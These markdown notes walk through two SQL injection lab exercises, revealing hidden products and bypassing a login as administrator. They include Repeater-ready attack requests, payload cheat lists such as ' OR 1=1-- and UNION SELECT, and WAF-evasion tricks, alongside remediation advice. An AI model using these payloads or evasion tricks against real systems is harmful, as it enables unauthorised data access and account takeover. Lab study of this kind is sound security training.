

# SQL Injection Lab-1 — Retrieving Hidden Data 

---

## 🔹 One-line summary
In-band SQL injection (WHERE-clause manipulation): inject into a filter parameter to neutralize AND released = 1 (or force the WHERE to true) and reveal unreleased/hidden products.

---

## 🔹 What is this issue?
SQL injection (SQLi) occurs when untrusted input is concatenated into SQL queries. By injecting SQL metacharacters or logic (e.g. ' OR 1=1 --) an attacker can change the query semantics and return rows the application intended to hide.

---

## 🔹 Why this matters (real-world risk)
- Exposes sensitive or unreleased data (products, user records).  
- Can escalate to data modification, account takeover, or RCE depending on DB features and privileges.  
- Often allows enumeration of database structure, union-based data extraction, or blind/time-based exfiltration.

---

## 🔹 High-value places to test
- Filter / search endpoints: /filter?category=..., /search?q=...  
- Item lookups: /product?id=..., /item?id=...  
- Sorting / pagination params: order, limit, page  
- Admin exports / downloads: /export?table=...  
- JSON APIs: values in POST/PUT JSON bodies that end up in SQL strings

---

## 🔹 Quick reconnaissance / how to spot it
1. Submit a single quote ' and look for DB errors or unusual responses.  
2. Try boolean tests: OR 1=1 vs OR 1=2 and compare content/length.  
3. Inspect JS and links for parameters that map to DB-driven pages.  
4. Watch for subtle clues: extra rows, changed pagination, different content-length, timing differences.

---

## 🔹 Lab walkthrough — compact (exact steps)
1. Open Burp Proxy and capture a normal category request (e.g., click *Techgifts*).  
2. Right-click captured request → *Send to Repeater*.  
3. Modify category parameter to neutralize the released filter, for example:

GET /filter?category=Techgifts'+OR+1=1-- HTTP/2
Host: <lab-host>
...

4. Send the modified request in Repeater and inspect the response — unreleased products should now be visible.
5. Save raw request/response as PoC and take a screenshot.
*Lab solved.*

---

## 🔹 Proof (evidence)

  
(Screenshot 1: modified request showing payload CorporateGifts' OR 1=1-- in the URL/params.)

  
(Screenshot 2: page showing unreleased products / PoC that the injection returned additional items.)

---

## 🔹 PoC / Repeater-ready example 

GET /filter?category=Techgifts'+OR+1=1-- HTTP/1.1
Host: <LAB_HOST>
User-Agent: Mozilla/5.0
Accept: /
Connection: close

---

*If the parameter is numeric, use:*  
id=1' OR 1=1-- (or id=1 OR 1=1 depending on context).

*URL-encode payloads when sending via browser* (e.g., '%20OR%201%3D1--).

---

## 🔹 Common payloads & quick cheats

- *Comment out rest:* '+-- or '+OR+1=1--  
- *Force true:* ' OR '1'='1'--  
- *Numeric id injection:* 1' OR 1=1--  
- *Time-based (MySQL):* ' OR SLEEP(5)--  
- *UNION discovery:* try ORDER BY then UNION SELECT NULL,version(),NULL-- (only if visible output)

*Always adapt comment style to the DB (--, #, /* ... */).*

---

## 🔹 Troubleshooting

- *No visible change:* try URL-encoding, use POST/JSON variants, or test different params.  
- *WAF interference:* attempt simple obfuscation (e.g., UN/**/ION) or minimal payloads.  
- *No output:* use blind techniques (time-based or OOB) *with permission*.

---

## 🔹 Fixes / remediation 

- Use *parameterized queries / prepared statements* (no string concatenation).  
- Enforce strict *whitelist validation* for known values (e.g., allowed categories).  
- Hide verbose DB errors from users; log them internally.  
- Use *least-privilege DB accounts* and separate read-only roles where possible.  
- Add monitoring / WAF as defense-in-depth (not a replacement).

---

## 🔹 Pentest checklist 

- Identify inputs reaching DB (GET/POST/JSON/headers/cookies).  
- Test ' for errors.  
- Try boolean tests: OR 1=1-- / OR 1=2--.  
- If data returned, attempt UNION/ORDER BY to enumerate columns.  
- If hidden, try time-based or OOB techniques.  
- Save PoC: raw request + response + screenshot.

---

# SQL Injection Lab-2 — Subverting Application Logic (Login Bypass) — Notes 

Lab type: in-band SQLi (authentication bypass via WHERE-clause manipulation / comment-out).

---

## 🔹 1. What is this issue?

A SQL injection in an authentication query lets an attacker manipulate the WHERE clause so the password check is never applied. By injecting a comment (e.g. --) or an always-true expression into the *username* field, the attacker can cause the query to return the target user row and the app treats them as authenticated — no password required.

---

## 🔹 2. Why this matters (real-world risk)

- Immediate account takeover (often admin).  
- Full application compromise if the account has high privileges.  
- Simple and frequently present in legacy code that concatenates inputs into SQL.  
- Easy to chain with further attacks (data exfiltration, privilege escalation, persistence).

Impact example: login as administrator → delete users / change configs / exfiltrate data.

---

## 🔹 3. High-value places to test (quick)

- Login endpoints: POST /login, /auth, /session.  
- Any endpoint that constructs SQL from user-controlled fields w/o parameterization.  
- API endpoints accepting username, userId, email in JSON or form data.

---

## 🔹 4. How to find it quickly

- Submit a single quote ' in the username and watch for errors or different behaviour.  
- Try common auth-bypass payloads in the username field:

  - administrator'--  
  - administrator' OR '1'='1  
  - admin'/*  (DB/comment dependent)

- Observe redirects, status codes, response bodies — successful injection often returns admin pages or different Location headers.

---

## 🔹 5. Lab walkthrough — compact (exact steps)

1. *Capture a baseline login request*  
   - Proxy *ON*; perform a normal login to capture POST /login (username/password).  
   - In Burp → *Proxy → HTTP history* find the POST /login and *Send to Repeater*.

2. *Send to Repeater and prepare PoC*  
   - In Repeater edit the request body (or form fields).  
   - Replace username= value with the SQL comment payload, for example:  
     
     username=administrator'--&password=anything
     

3. *Leave password blank or unchanged*  
   - You may set password= to an arbitrary value or leave it empty — the injection should remove the password check.

4. *Send the modified request*  
   - Click *Send* in Repeater and inspect raw response headers. Look for a redirect such as:
     
     HTTP/1.1 302 Found
     Location: /my-account?id=administrator
     

5. *Follow the redirect / verify in browser*  
   - Replay cookies / session in browser or follow the redirect in Repeater. If you see admin UI / account page you are authenticated as the target user. Lab solved.
     
---

## 🧾 Proof / Evidence

1. *Screenshot — PoC Repeater request/response (injected login POST)*  
   ../images/sqli-login-bypass-post.png  
   Description: Repeater request showing the modified POST /login (payload username=administrator'--) and the response headers (302 Location: /my-account?id=administrator).  
   

---

## 🔹 6. Repeater / PoC templates 

*Form-encoded login bypass (example)*

POST /login HTTP/1.1 Host: <LAB_HOST> Content-Type: application/x-www-form-urlencoded Cookie: session=<YOUR_SESSION>

username=administrator'--&password=anything

*GET-style (if login via querystring)*

GET /login?username=administrator'--&password=anything HTTP/1.1 Host: <LAB_HOST>

(Adjust method/headers to match the app. URL-encode when pasting into browser.)

---

## 🔹 7. Common payloads 

- administrator'--  (comment-out rest)  
- administrator' OR '1'='1'--  
- ' OR '1'='1'--  (may log in as first user returned)  
- admin'/*  (DB-specific comment forms)  
- Numeric ids: 1 OR 1=1--

Always adapt to DB comment style and context (string vs numeric).

---

## 🔹 8. Troubleshooting

- No redirect/visible change → try alternate comment styles (--, #, /* */) and URL-encode special chars.  
- WAF blocks simple payloads → try minor obfuscation (e.g., OR/**/1=1).  
- If query expects numeric id → remove quotes and use numeric payloads.  
- Use Repeater to inspect raw responses (redirects, cookies) rather than relying only on browser UI.

---

## 🔹 9. Fixes / remediation (what to recommend)

- Use parameterized queries / prepared statements for all DB access (no string concatenation).  
- Use ORM safe-query mechanisms; never interpolate untrusted input.  
- Return generic login error messages — avoid revealing whether username exists.  
- Apply WAF/input validation as defense-in-depth (not a substitute for parameterized queries).  
- Review & sanitize legacy auth code paths; add automated tests to detect auth bypass via injection.

---

## 🔹 10. Pentest checklist 

- Affected endpoint & method: POST /login.  
- Vulnerable parameter: username.  
- Exact PoC request & raw response showing redirect to /my-account?id=administrator.  
- Evidence: screenshot of admin page after bypass.  
- Impact: authentication bypass → admin takeover.  
- Remediation summary: parameterized queries + hardening.

---
